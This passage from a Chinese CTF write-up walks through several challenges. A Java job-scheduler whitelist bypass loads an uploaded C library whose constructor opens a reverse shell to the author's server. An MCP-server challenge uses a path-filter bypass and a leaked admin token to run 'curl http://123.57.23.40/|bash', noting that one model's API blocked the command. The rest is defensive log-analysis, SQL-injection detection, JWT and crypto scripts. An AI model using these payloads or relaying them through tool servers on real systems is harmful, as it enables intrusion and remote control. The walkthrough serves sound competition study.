                            paramValues.add(Integer.parseInt(param));
                            paramTypes.add(Integer.TYPE);
                        } else if (!param.equals("true") && !param.equals("false")) {
                            paramValues.add(param);
                            paramTypes.add(String.class);
                        } else {
                            paramValues.add(Boolean.parseBoolean(param));
                            paramTypes.add(Boolean.TYPE);
                        }
                    }
                }

                try {
                    Method method = clazz.getMethod(methodName, (Class[])paramTypes.toArray(new Class[0]));
                    if (Modifier.isStatic(method.getModifiers())) {
                        return method.invoke((Object)null, paramValues.toArray());
                    } else {
                        Object instance = clazz.newInstance();
                        return method.invoke(instance, paramValues.toArray());
                    }
                } catch (NoSuchMethodException var18) {
                    Method method = clazz.getDeclaredMethod(methodName, (Class[])paramTypes.toArray(new Class[0]));
                    method.setAccessible(true);
                    if (Modifier.isStatic(method.getModifiers())) {
                        return method.invoke((Object)null, paramValues.toArray());
                    } else {
                        Object instance = clazz.newInstance();
                        return method.invoke(instance, paramValues.toArray());
                    }
                }
            } else {
                throw new IllegalArgumentException("Invalid method format");
            }
        }
    }

    private String[] splitParams(String paramStr) {
        List<String> params = new ArrayList();
        int bracketLevel = 0;
        int start = 0;

        for(int i = 0; i < paramStr.length(); ++i) {
            char c = paramStr.charAt(i);
            if (c != '(' && c != '{' && c != '[') {
                if (c != ')' && c != '}' && c != ']') {
                    if (c == ',' && bracketLevel == 0) {
                        params.add(paramStr.substring(start, i));
                        start = i + 1;
                    }
                } else {
                    --bracketLevel;
                }
            } else {
                ++bracketLevel;
            }
        }

        if (start < paramStr.length()) {
            params.add(paramStr.substring(start));
        }

        return (String[])params.toArray(new String[0]);
    }

    static class ScheduledJob {
        private String jobName;
        private String invokeTarget;
        private String cronExpression;

        ScheduledJob() {
        }

        public String getJobName() {
            return this.jobName;
        }

        public void setJobName(String jobName) {
            this.jobName = jobName;
        }

        public String getInvokeTarget() {
            return this.invokeTarget;
        }

        public void setInvokeTarget(String invokeTarget) {
            this.invokeTarget = invokeTarget;
        }

        public String getCronExpression() {
            return this.cronExpression;
        }

        public void setCronExpression(String cronExpression) {
            this.cronExpression = cronExpression;
        }
    }
}

```

`/job/add`路由可以添加一个计划任务，然后通过`/job/run/{jobName}`去触发，从而调用任意方法。  
在`/job/add`的位置存在黑白名单过滤，检测`invokeTarget`是否存在黑白名单中的关键词。黑名单的就不用说了，白名单的类其实可以绕过（如果绕不过肯定没后文了啊）。  
可以看到对于`invokeTarget`进行拆分的逻辑如下：

```
String className = invokeTarget.substring(0, hashIndex);
            String methodAndParams = invokeTarget.substring(hashIndex + 1);
            int paramStart = methodAndParams.indexOf(40);
            int paramEnd = methodAndParams.lastIndexOf(41);
            if (paramStart != -1 && paramEnd != -1) {
                String methodName = methodAndParams.substring(0, paramStart);
                String paramStr = methodAndParams.substring(paramStart + 1, paramEnd);
```

发现问题：如果我在`)`的后面藏一些字符串，那么是不会被解析的，而是直接丢弃，那么我们就把`com.jabaez.FLAG`藏到最后。  
然后就要想怎么bypass掉黑名单去执行命令，看到存在文件上传的路由`/upload`，可以做到可控的文件上传，因此考虑加载so文件。  
制作一个恶意的so：

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

// 使用 __attribute__((constructor)) 确保在库加载时自动执行此函数
__attribute__((constructor))
void revshell() {
    const char* ip = "vps_ip";
    const int port = 1234;
    // --------------------------------

    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock < 0) {
        return;
    }

    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(port);
    server_addr.sin_addr.s_addr = inet_addr(ip);

    if (connect(sock, (struct sockaddr*)&server_addr, sizeof(server_addr)) != 0) {
        close(sock);
        return;
    }

    // 重定向标准输入、输出和错误到socket
    dup2(sock, 0); // stdin
    dup2(sock, 1); // stdout
    dup2(sock, 2); // stderr

    // 执行一个shell
    execve("/bin/sh", NULL, NULL);
    
    close(sock);
}
```

然后静态编译：

```
gcc -shared -fPIC rce.c -o rce.so
```

把恶意的so文件传上去，通过`System.load`加载：

```
POST /api/job/add HTTP/1.1
Host: pss.idss-cn.com:24246
Content-Type: application/json
Content-Length: 1

{
  "jobName": "load",
  "invokeTarget": "java.lang.System#load('/tmp/uploads/rce.so')com.jabaez.FLAG",
  "cronExpression": "* * * * *"
}
```



```
POST /api/job/run/load HTTP/1.1
Host: 172.23.184.237:8080
Content-Type: application/json
Content-Length: 1
```

成功拿shell  


### web-ez\_py

上来扫到了/messages，状态码307，提示：`Invalid Content-Type header`。  
加上application/json，提示：`session_id is required`  
发现/see/路由，猜测是mcp server，使用cherry stuido去连接题目的mcp服务，接个api，然后就可以让ai去读取mcp server中的文件了。  
尝试读取项目文件发生报错：`not server file read server.py`，使用如下方式绕过：`app/serv../er.py`。  
起初我也没明白为啥能绕过，但是一看源码明白了：

```
#!/usr/bin/env python3
import os
import subprocess
from fastmcp import FastMCP

ADMIN_TOKEN = "admin_token_12345"

# 创建MCP服务器
mcp = FastMCP("CTF Server")


@mcp.tool()
def file_reader(path: str) -> str:
    """Read files from the system 过滤去除路径穿越"""

    server_keywords = ["server.py", "__file__", "main.py", ]
    if any(keyword in path for keyword in server_keywords):
        content = "not server file read server.py"
        return content

    # 简单的路径过滤，可以绕过
    if "../" in path:
        path = path.replace("../", "")

    print("reading:" + path)
    if "flag" in path:
        content = "not server file read"
        return content

    # 读取源码
    try:
        with open(path, 'r') as f:
            content = f.read()
    except:
        content = "Cannot read source file"

    return content


@mcp.tool()
def system_cmd(cmd: str, token: str = "") -> str:
    """Execute system commands (requires authentication)"""

    # 需要token验证
    if token != ADMIN_TOKEN:
        return "Authentication required. Invalid token."

    try:
        if True:
            # 作为Python代码执行，添加沙箱
            hook_code = '''
def my_audit_hook(event_name, arg):
    blacklist = ["subprocess", "input", "eval", "exec", "compile"]
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("Dangerous operation blocked!")

__import__('sys').addaudithook(my_audit_hook)

'''

            # 构造Python执行代码
            python_code = hook_code + f'''
try:
    result = {cmd}
    print(f"Result: {{result}}")
except Exception as e:
    print(f"Error: {{e}}")
'''

            with open("/tmp/sandbox_run.py", 'w') as f:
                f.write(python_code)

            result = subprocess.run(['python', '/tmp/sandbox_run.py'],
                                    stdout=subprocess.PIPE,
                                    stderr=subprocess.PIPE,
                                    timeout=10)

            # 清理文件
            try:
                os.remove('/tmp/sandbox_run.py')
            except:
                pass

            if result.returncode == 0:
                output = result.stdout.decode("utf-8")
            else:
                output = f"Sandbox execution failed: {result.stderr.decode('utf-8')}"

        if not output:
            output = "Command executed successfully (no output)"

    except subprocess.TimeoutExpired:
        output = "Command execution timeout"
    except Exception as e:
        output = f"Command execution failed: {str(e)}"

    return output


if __name__ == "__main__":
    mcp.run(transport="sse", host="0.0.0.0", port=8000)
```

源码对于路径穿越的过滤逻辑刚好被用于bypass限制：

```
if "../" in path:
        path = path.replace("../", "")
```

此时有了`ADMIN_TOKEN = "admin_token_12345"`，也就好办了，可以直接去执行命令：

```
{
  "params": {
    "cmd": "__import__('os').system('curl http://123.57.23.40/|bash')","token":"admin_token_12345"
  }
```

这里要注意一个问题，不要使用深度求索的api，他会直接把你的命令拦截下来：  


# 数据安全

这部分没啥说的，直接贴一下处理脚本就得了。

### SQLi\_Detection

检测三种核心的SQL注入模式：  
检测规则 情况1：布尔注入  
模式：' OR 或 ' AND 示例：admin' OR '1'='1' -- 原理：通过OR/AND条件绕过身份验证 情况2：联合查询注入  
模式：' UNION SELECT 示例：' UNION SELECT username,password FROM users -- 原理：通过UNION联合查询获取额外数据 情况3：堆叠查询注入  
模式：'; 危险语句 示例：'; DROP TABLE users; -- 原理：通过分号执行多个SQL语句 判定逻辑 满足以上任一模式即判定为SQL注入攻击。  
任务：统计 logs.txt 中疑似 SQL 注入的行数，flag格式：flag{行数}。

```
import re

patterns = [
    r"'[\s]*(?:OR|AND)[\s]+",
    r"'[\s]*UNION[\s]+SELECT",
    r"';.*"
]

compiled_patterns = [re.compile(p, re.IGNORECASE) for p in patterns]

count = 0
with open("logs.txt", "r", encoding="utf-8") as f:
    for line in f:
        if any(p.search(line) for p in compiled_patterns):
            count += 1

print(f"flag{{{count}}}")

```

### DB\_Log

题目描述 本题目模拟企业数据库安全审计场景，需要分析数据库操作日志，检测违反企业安全政策的异常行为。系统包含4个部门（HR、Finance、IT、Sales）的权限管理，每个部门只能访问特定的数据表。  
企业权限架构 部门数据表分布：  
HR部门：employee\_info、salary\_data、personal\_info  
Finance部门：financial\_reports、budget\_data、payment\_records  
IT部门：system\_logs、server\_data、network\_config  
Sales部门：customer\_data、sales\_records、product\_info 敏感字段：salary、ssn、phone、email、address  
检测规则 规则1：跨部门数据访问违规 检测用户访问非本部门的数据表  
规则2：敏感字段访问违规 检测用户访问个人隐私信息字段  
规则3：工作时间外操作异常 检测在非工作时间（凌晨0-5点）进行的数据库操作  
规则4：数据备份异常操作 检测非授权用户执行数据备份操作（只有管理员可以执行BACKUP）  
任务要求 分析提供的数据库操作日志，按照上述4个检测规则识别违规行为，输出违规记录的编号-日志ID格式，并计算MD5值。  
输出格式：  
违规记录: 规则编号-日志ID,规则编号-日志ID,... 排列顺序按照日志ID顺序 flag格式：flag{MD5(规则编号-日志ID,规则编号-日志ID,...)}  
示例： 违规记录: 3-884,4-1036,2-1120,2-1214,1-1437,2-1553,3-1580,3-1794  
flag{md5(3-884,4-1036,2-1120,2-1214,1-1437,2-1553,3-1580,3-1794)} flag{0270383124549df3bdf631ff83e7ccb5}

```
import re
from datetime import datetime
from typing import Dict, List, Set, Tuple

class DatabaseLogAnalyzer:
    def __init__(self):
        # 部门数据表分布
        self.department_tables = {
            'HR': {'employee_info', 'salary_data', 'personal_info'},
            'Finance': {'financial_reports', 'budget_data', 'payment_records'},
            'IT': {'system_logs', 'server_data', 'network_config'},
            'Sales': {'customer_data', 'sales_records', 'product_info'}
        }
        
        # 敏感字段
        self.sensitive_fields = {'salary', 'ssn', 'phone', 'email', 'address'}
        
        # 用户信息
        self.users = {}  # user_id -> {'department': str, 'role': str, 'tables': set, 'operations': set}
        
        # 违规记录
        self.violations = []
    
    def load_user_permissions(self, filepath: str):
        """加载用户权限信息"""
        with open(filepath, 'r', encoding='utf-8') as f:
            for line in f:
                line = line.strip()
                if not line or line.startswith('#'):
                    continue
                
                parts = [p.strip() for p in line.split(',')]
                if len(parts) >= 6:
                    user_id = parts[1]
                    department = parts[2]
                    tables = set(parts[3].split(';')) if parts[3] else set()
                    operations = set(parts[4].split(';')) if parts[4] else set()
                    role = parts[5]
                    
                    self.users[user_id] = {
                        'department': department,
                        'role': role,
                        'tables': tables,
                        'operations': operations
                    }
    
    def parse_log_entry(self, line: str) -> Dict:
        """解析日志条目"""
        parts = line.strip().split()
        if len(parts) < 4:
            return None
            
        log_id = int(parts[0])
        date_str = parts[1]
        time_str = parts[2]
        user_id = parts[3]
        action = parts[4] if len(parts) > 4 else ""
        
        # 解析日期时间
        datetime_str = f"{date_str} {time_str}"
        dt = datetime.strptime(datetime_str, "%Y-%m-%d %H:%M:%S")
        
        # 解析操作详情
        table_name = ""
        operation = ""
        field = ""
        
        if action == "QUERY" and len(parts) > 5:
            table_name = parts[5]
            # 查找operation和field
            rest_line = " ".join(parts[6:])
            
            # 提取operation
            op_match = re.search(r'operation=(\w+)', rest_line)
            if op_match:
                operation = op_match.group(1)
            
            # 提取field
            field_match = re.search(r'field=(\w+)', rest_line)
            if field_match:
                field = field_match.group(1)
                
        elif action == "BACKUP" and len(parts) > 5:
            table_name = parts[5]
            operation = "BACKUP"
        
        return {
            'log_id': log_id,
            'datetime': dt,
            'user_id': user_id,
            'action': action,
            'table': table_name,
            'operation': operation,
            'field': field
        }
    
    def check_cross_department_access(self, log_entry: Dict) -> bool:
        """规则1：检查跨部门数据访问违规"""
        if log_entry['action'] not in ['QUERY', 'BACKUP']:
            return False
            
        user_id = log_entry['user_id']
        table = log_entry['table']
        
        if user_id not in self.users or not table:
            return False
            
        user_dept = self.users[user_id]['department']
        
        # 检查表是否属于用户部门
        if table in self.department_tables.get(user_dept, set()):
            return False
        
        # 检查是否访问了其他部门的表
        for dept, tables in self.department_tables.items():
            if dept != user_dept and table in tables:
                return True
                
        return False
    
    def check_sensitive_field_access(self, log_entry: Dict) -> bool:
        """规则2：检查敏感字段访问违规"""
        if log_entry['action'] != 'QUERY' or not log_entry['field']:
            return False
            
        return log_entry['field'] in self.sensitive_fields
    
    def check_after_hours_operation(self, log_entry: Dict) -> bool:
        """规则3：检查工作时间外操作异常（凌晨0-5点）"""
        if log_entry['action'] not in ['QUERY', 'BACKUP']:
            return False
            
        hour = log_entry['datetime'].hour
        return 0 <= hour < 5
    
    def check_unauthorized_backup(self, log_entry: Dict) -> bool:
        """规则4：检查数据备份异常操作（非管理员执行BACKUP）"""
        if log_entry['action'] != 'BACKUP' and log_entry['operation'] != 'BACKUP':
            return False
            
        user_id = log_entry['user_id']
        if user_id not in self.users:
            return True  # 未知用户执行备份
            
        return self.users[user_id]['role'] != 'admin'
    
    def analyze_logs(self, log_filepath: str):
        """分析日志文件"""
        self.violations = []
        
        with open(log_filepath, 'r', encoding='utf-8') as f:
            for line in f:
                log_entry = self.parse_log_entry(line)
                if not log_entry:
                    continue
                
                log_id = log_entry['log_id']
                
                # 检查各种违规
                if self.check_cross_department_access(log_entry):
                    self.violations.append((1, log_id))
                
                if self.check_sensitive_field_access(log_entry):
                    self.violations.append((2, log_id))
                
                if self.check_after_hours_operation(log_entry):
                    self.violations.append((3, log_id))
                
                if self.check_unauthorized_backup(log_entry):
                    self.violations.append((4, log_id))
    
    def get_violations_result(self) -> str:
        """获取违规结果，按日志ID顺序排列"""
        # 按日志ID排序
        sorted_violations = sorted(self.violations, key=lambda x: x[1])
        
        # 格式化输出
        violation_strings = [f"{rule}-{log_id}" for rule, log_id in sorted_violations]
        
        return f"违规记录: {','.join(violation_strings)}"

def main():
    analyzer = DatabaseLogAnalyzer()
    
    # 加载用户权限
    analyzer.load_user_permissions('./user_permissions.txt')
    
    # 分析日志
    analyzer.analyze_logs('./database_logs.txt')
    
    # 输出结果
    result = analyzer.get_violations_result()
    print(result)
    

if __name__ == "__main__":
    main()

违规记录: 4-380,2-703,4-862,1-1056,1-1243,1-1360,3-1395,3-1433,3-1553,2-1644,3-1838,3-1872,2-2101,2-2113
```

### AES\_Custom\_Padding

背景：某系统对备份数据使用 AES-128-CBC 加密，但采用了自定义填充：  
在明文末尾添加一个字节 0x80； 之后使用 0x00 进行填充直到达到 16 字节块长。 （注意：如果明文恰好是块长整数倍，同样需要追加一个完整填充块 0x80 + 0x00\*15） 已知：  
Key（hex）：0123456789ABCDEF0123456789ABCDEF  
IV （hex）：000102030405060708090A0B0C0D0E0F 加密文件：cipher.bin（Base64 编码的密文） 任务：编写解密程序，使用给定 Key/IV 进行 AES-128-CBC 解密，并按上述自定义填充去除填充，得到明文。

```
import base64
from Crypto.Cipher import AES

def unpad_custom(padded_data: bytes) -> bytes:
    unpadded = padded_data.rstrip(b'\x00')

    if not unpadded or unpadded[-1] != 0x80:
        raise ValueError("0x80")
    
    return unpadded[:-1]

def main():

    b64_ciphertext = "WU+8dpscYYw+q52uQqX8OPiesnTajq++AXj05zX3u9an27JZR9/31yZaWdtPM5df"
    key_hex = "0123456789ABCDEF0123456789ABCDEF"
    iv_hex = "000102030405060708090A0B0C0D0E0F"
    ciphertext = base64.b64decode(b64_ciphertext)

    key = bytes.fromhex(key_hex)
    iv = bytes.fromhex(iv_hex)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    
    decrypted_padded = cipher.decrypt(ciphertext)
    plaintext_bytes = unpad_custom(decrypted_padded)
    plaintext_str = plaintext_bytes.decode('utf-8')
    print(f"{plaintext_str}")

if __name__ == "__main__":
    main()
#flag{T1s_4ll_4b0ut_AES_custom_padding!}
```

### ACL\_Allow\_Count

ACL 规则匹配与允许条数统计  
说明：给定 3 条 ACL 规则与 2000 条流量日志（rules.txt, traffic.txt）。  
规则格式：     action: allow/deny  
proto: tcp/udp/any  
src/dst: IPv4 或 CIDR 或 any  
dport: 端口号或 any 流量格式：    匹配原则：自上而下 first-match；若无匹配则默认 deny。  
任务：统计被允许（allow）的流量条数并输出该数字，flag格式：flag{allow流量条数}

```
import ipaddress

def match_ip(rule_ip, traffic_ip):
    if rule_ip == "any":
        return True
    try:
        if "/" in rule_ip:  # CIDR
            return ipaddress.ip_address(traffic_ip) in ipaddress.ip_network(rule_ip, strict=False)
        else:  # 单个IP
            return traffic_ip == rule_ip
    except ValueError:
        return False

def match_port(rule_port, traffic_port):
    return rule_port == "any" or int(rule_port) == int(traffic_port)

def match_proto(rule_proto, traffic_proto):
    return rule_proto == "any" or rule_proto == traffic_proto

def load_rules(file_path):
    rules = []
    with open(file_path, "r") as f:
        for line in f:
            if not line.strip() or line.strip().startswith("#"):
                continue
            action, proto, src, dst, dport = line.strip().split()
            rules.append((action, proto, src, dst, dport))
    return rules

def load_traffic(file_path):
    traffics = []
    with open(file_path, "r") as f:
        for line in f:
            if not line.strip() or line.strip().startswith("#"):
                continue
            proto, src, dst, dport = line.strip().split()
            traffics.append((proto, src, dst, dport))
    return traffics

def check_traffic(rules, traffic):
    for action, proto, src, dst, dport in rules:
        if match_proto(proto, traffic[0]) \
            and match_ip(src, traffic[1]) \
            and match_ip(dst, traffic[2]) \
            and match_port(dport, traffic[3]):
            return action
    return "deny"  # 默认拒绝

def main():
    rules = load_rules("rules.txt")
    traffics = load_traffic("traffic.txt")

    allow_count = 0
    for t in traffics:
        if check_traffic(rules, t) == "allow":
            allow_count += 1

    print(f"flag{{{allow_count}}}")

if __name__ == "__main__":
    main()
```

### JWT\_Weak\_Secret

题目描述 本题目模拟真实场景中的JWT（JSON Web Token）安全审计任务，需要检测使用弱密钥签名的JWT令牌，并识别具有管理员权限的用户。  
任务要求 1、签名验证： 对于HS256算法的JWT：使用字典中的密码逐一尝试验证签名 对于RS256算法的JWT：使用提供的公钥验证签名  
2、权限检查： 检查JWT载荷中的管理员权限标识 管理员权限条件：admin=true 或 role ∈ {admin, superuser}  
3、统计结果： 统计同时满足以下条件的JWT令牌数量： 签名验证通过 具有管理员权限 flag格式：flag{a:b:c...},a,b,c是令牌序号，从小到大的顺序。  
JWT载荷结构示例 { "iat": 1721995200, // 签发时间 "exp": 1722038400, // 过期时间 "sub": "alice", // 用户标识 "iss": "svc-auth", // 签发者 "admin": true, // 管理员标识（方式1） "role": "admin" // 角色标识（方式2） }

```
import jwt
import json

# 文件路径
PUBLIC_KEY_FILE = "public.pem"
TOKENS_FILE = "tokens.txt"
WORDLIST_FILE = "wordlist.txt"

def load_public_key(path):
    with open(path, "r") as f:
        return f.read()

def load_tokens(path):
    with open(path, "r") as f:
        return [line.strip() for line in f if line.strip()]

def load_wordlist(path):
    with open(path, "r") as f:
        return [line.strip() for line in f if line.strip()]

def is_admin(payload):
    # 管理员权限判定
    if payload.get("admin") is True:
        return True
    if payload.get("role") in ["admin", "superuser"]:
        return True
    return False

def verify_hs256(token, wordlist):
    for secret in wordlist:
        try:
            payload = jwt.decode(token, secret, algorithms=["HS256"])
            return payload
        except jwt.InvalidSignatureError:
            continue
        except jwt.ExpiredSignatureError:
            # 签名合法，时间过期仍认为签名有效
            return jwt.decode(token, secret, algorithms=["HS256"], options={"verify_exp": False})
        except Exception:
            continue
    return None

def verify_rs256(token, public_key):
    try:
        payload = jwt.decode(token, public_key, algorithms=["RS256"])
        return payload
    except jwt.ExpiredSignatureError:
        return jwt.decode(token, public_key, algorithms=["RS256"], options={"verify_exp": False})
    except Exception:
        return None

def main():
    public_key = load_public_key(PUBLIC_KEY_FILE)
    tokens = load_tokens(TOKENS_FILE)
    wordlist = load_wordlist(WORDLIST_FILE)

    valid_admin_tokens = []

    for idx, token in enumerate(tokens, start=1):
        header = jwt.get_unverified_header(token)
        payload = None

        if header.get("alg") == "HS256":
            payload = verify_hs256(token, wordlist)
        elif header.get("alg") == "RS256":
            payload = verify_rs256(token, public_key)
        else:
            continue  # 不支持的算法

        if payload and is_admin(payload):
            valid_admin_tokens.append(idx)

    flag = "flag{" + ":".join(map(str, valid_admin_tokens)) + "}"
    print(flag)

if __name__ == "__main__":
    main()
```

### Brute\_Force\_Detection

模式定义：同一源IP在 10分钟内 针对同一用户 连续5次失败，并且 紧接 第5次失败 下一次尝试成功。 检测到上述模式的源IP记为一次暴力破解成功迹象。

任务：给定按时间排序的 auth.log（格式：YYYY-mm-dd HH:MM:SS RESULT user= ip=<a.b.c.d>）， 输出 出现过该模式的唯一源IP内容，flag格式：flag{ip1:ip2...}，IP顺序从小到大。

```
import datetime
import re
from collections import defaultdict

def parse_log_line(line):
    pattern = r"(\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2}) (\w+) user=(\w+) ip=(\d+\.\d+\.\d+\.\d+)"
    match = re.match(pattern, line.strip())
    if match:
        timestamp = datetime.datetime.strptime(match.group(1), "%Y-%m-%d %H:%M:%S")
        result = match.group(2)
        user = match.group(3)
        ip = match.group(4)
        return timestamp, result, user, ip
    return None

def check_brute_force(logs):
    window = defaultdict(list)
    brute_force_ips = set()

    for i, (timestamp, result, user, ip) in enumerate(logs):
        # Add current log to window
        window[(user, ip)].append((timestamp, result))
        
        # Remove logs outside 10-minute window
        window[(user, ip)] = [
            (t, r) for t, r in window[(user, ip)]
            if (timestamp - t).total_seconds() <= 600
        ]
        
        # Check for pattern: 5 consecutive fails followed by success
        if len(window[(user, ip)]) >= 6:
            recent_logs = window[(user, ip)][-6:]
            if (
                all(r == "FAIL" for _, r in recent_logs[:5]) and
                recent_logs[-1][1] == "SUCCESS"
            ):
                brute_force_ips.add(ip)
    
    return sorted(list(brute_force_ips), key=lambda x: tuple(map(int, x.split('.'))))

def main():
    logs = []
    with open("auth.log", "r") as f:
        for line in f:
            parsed = parse_log_line(line)
            if parsed:
                logs.append(parsed)
    
    brute_force_ips = check_brute_force(logs)
    if brute_force_ips:
        flag = "flag{" + ":".join(brute_force_ips) + "}"
    else:
        flag = "flag{}"
    
    print(flag)

if __name__ == "__main__":
    main()

```
